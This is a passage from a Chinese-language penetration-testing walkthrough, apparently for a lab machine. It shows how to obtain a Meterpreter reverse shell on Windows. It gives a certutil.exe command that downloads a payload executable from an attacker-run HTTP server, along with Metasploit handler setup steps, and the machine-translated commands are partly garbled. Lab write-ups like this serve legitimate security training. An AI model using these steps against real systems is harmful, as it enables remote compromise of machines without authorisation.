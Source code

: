 正如你所看到的，我们刚刚得到的外壳非常不稳定，这让我非常想念 Meterpreter 外壳。为什么我们不使用 Msfvenom 创建 windows 特定的 Meterpreter 有效负载，并获得所谓的类固醇外壳？！

该命令显示在下面的屏幕截图中:

![](img/63369f787cadc9ec3e2c34695c368adf.png)

细目分类:

> **-p** *指定有效载荷(***--list =有效载荷** *查看所有可用的有效载荷)*
> 
> **lhost** *—本地主机的 IP 地址*
> 
> **lport** *—本地主机将在*上监听的端口号
> 
> **-f** *是可执行文件*的文件类型

如果你想了解更多关于 Msfvenom 的知识，这里有攻击性安全提供的教程链接。

现在，我们需要把这些有效载荷交给受害者。非常感谢[网络导师](https://www.youtube.com/c/TheCyberMentor/featured)提供了如何实际做到这一点的线索。我们将使用[certutil.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)程序，该程序通常使用证书操作，但也可用于文件传输。

`certutil.exe -urlcache -f [http://ip-addr/ThePayload.exe](http://ip-address/ThePayload.exe) ThePayload.exe`

但是在执行这些命令之前，请转到目标机器上的 *C:\windows\temp* 目录，并在您的有效负载所在的目录中本地启动 HTTP 服务器。让我们使用 Python 的 SimpleHTTPServer。

> ***python-m simple http server 80***

![](img/a44924b8b23767e7deb8ff639ed97bd7.png)

在有效负载执行之前，我们需要设置 [Metasploit 处理程序](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit)，以便检索 Meterpreter 反向 shell。

1.  通过发出 msfconsole 命令打开 Metasploit 终端。
2.  键入 ***使用 exploit/multi/handler*** 以打开处理程序模块。
3.  选择我们已插入 Msfvenom 漏洞利用的有效负载— ***设置有效负载窗口/meter preter _ reverse _ TCP***。
4.  发出 ***显示选项*** 命令，设置所需选项(LHOST，LPORT)。
5.  运行漏洞利用(使用 ***运行*** 或 ***漏洞利用*** 命令)。
